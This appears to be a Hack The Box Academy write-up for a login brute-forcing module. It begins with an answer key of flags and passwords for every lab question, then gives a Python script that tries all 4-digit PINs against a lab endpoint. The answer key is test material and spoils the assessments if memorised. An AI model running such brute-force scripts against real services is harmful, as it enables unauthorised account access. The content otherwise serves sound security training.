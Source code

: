 | Section | Question Number | Answer |
| --- | --- | --- |
| Brute Force Attacks | Question 1 | HTB{Brut3\_F0rc3\_1s\_P0w3rfu1} |
| Dictionary Attacks | Question 1 | HTB{Brut3\_F0rc3\_M4st3r} |
| Basic HTTP Authentication | Question 1 | HTB{th1s\_1s\_4\_f4k3\_fl4g} |
| Login Forms | Question 1 | HTB{W3b\_L0gin\_Brut3F0rc3} |
| Web Services | Question 1 | qqww1122 |
| Web Services | Question 2 | HTB{SSH\_and\_FTP\_Bruteforce\_Success} |
| Custom Wordlists | Question 1 | HTB{W3b\_L0gin\_Brut3F0rc3\_Cu5t0m} |
| Skills Assessment Part 1 | Question 1 | Admin123 |
| Skills Assessment Part 1 | Question 2 | satwossh |
| Skills Assessment Part 2 | Question 1 | thomas |
| Skills Assessment Part 2 | Question 2 | HTB{brut3f0rc1ng\_succ3ssful} |

## Acronyms Used in Writeups

| Acronym | Meaning |
| --- | --- |
| STMIP | Spawned Target Machine IP Address |
| STMPO | Spawned Target Machine Port |
| PMVPN | Personal Machine with a Connection to the Academy's VPN |
| PWNIP | Pwnbox IP Address (or PMVPN IP Address) |
| PWNPO | Pwnbox Port (or PMVPN Port) |

# Brute Force Attacks

## Question 1

### "After successfully brute-forcing the PIN, what is the full flag the script returns?"

After spawning the target, students will save the following Python3 PIN brute-force script as `solver.py` based on their STMIP and STMPO in the `ip` and `port` variables:

Code: python3

```python3
import requests

ip = "STMIP"  # Change this to your instance IP address
port = STMPO       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    
    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
```